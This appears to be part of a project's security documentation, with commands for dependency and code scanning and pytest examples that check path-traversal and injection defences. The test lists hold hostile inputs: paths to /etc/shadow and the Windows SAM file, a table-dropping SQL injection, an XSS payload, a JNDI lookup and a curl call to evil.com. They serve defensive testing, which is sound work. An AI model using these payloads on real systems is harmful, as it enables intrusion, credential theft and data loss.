 ## Vulnerability Management

### Dependency Security

```bash
# Security scanning
pip install safety
safety check --json

# Vulnerability database updates
pip install --upgrade safety

# Automated scanning in CI/CD
safety check --file requirements.txt --output json
```

### Code Security Scanning

```bash
# Static analysis
pip install bandit
bandit -r cli/src/ -f json -o security-report.json

# Dependency vulnerability check
pip install pip-audit
pip-audit --requirement requirements.txt --format json
```

### Security Testing

```python
# Security test examples
class TestSecurityControls:
    
    def test_path_traversal_prevention(self):
        """Test path traversal attack prevention."""
        malicious_paths = [
            "../../../etc/passwd",
            "..\\..\\..\\windows\\system32\\config\\sam",
            "/etc/shadow",
            "C:\\Windows\\System32\\config\\SAM"
        ]
        
        for path in malicious_paths:
            with pytest.raises(SecurityError):
                validate_file_path(path)
    
    def test_file_size_limits(self):
        """Test file size limit enforcement."""
        large_file = create_large_file(101 * 1024 * 1024)  # 101MB
        with pytest.raises(SecurityError, match="File too large"):
            validate_file_upload(large_file)
    
    def test_injection_prevention(self):
        """Test injection attack prevention."""
        malicious_inputs = [
            "'; DROP TABLE events; --",
            "<script>alert('xss')</script>",
            "${jndi:ldap://evil.com/exploit}",
            "$(curl evil.com/steal)"
        ]
        
        for input_data in malicious_inputs:
            sanitized = sanitize_input(input_data)
```